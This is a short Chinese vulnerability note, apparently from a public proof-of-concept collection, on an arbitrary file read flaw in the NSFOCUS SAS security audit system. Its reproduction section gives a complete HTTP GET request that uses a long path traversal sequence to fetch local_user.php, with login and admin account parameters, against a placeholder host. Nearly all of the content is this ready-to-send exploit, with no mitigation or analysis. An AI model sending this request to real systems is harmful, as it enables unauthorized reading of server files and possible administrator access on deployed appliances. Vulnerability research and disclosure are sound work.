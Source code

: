 #### 影响范围

绿盟安全审计系统SAS

#### 漏洞概述

绿盟安全审计系统SAS GetFile任意文件读取

#### 漏洞复现

漏洞POC：

```
GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```

